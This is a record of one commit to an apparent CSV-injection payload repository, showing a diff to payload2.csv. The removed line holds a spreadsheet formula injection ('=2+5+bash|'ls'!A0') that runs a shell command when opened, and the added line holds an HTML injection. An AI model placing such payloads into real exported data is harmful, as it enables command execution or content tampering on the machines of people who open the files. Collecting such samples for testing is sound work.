

Before and after one commit to debshubrac/csv-injection, a CSV file: payload2.csv, drawn as a sheet.

Commit message:
Update payload2.csv

```diff
--- a/payload2.csv
+++ b/payload2.csv
@@ -3,2 +3,2 @@ UserId,BillToDate,ProjectName,Description,DurationMinutes
 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240
-2,2017-07-25,Important Client,"=2+5+bash|'ls'!A0", 240
+2,2017-07-25,Important Client,<h1>Hack</h1>, 240
```
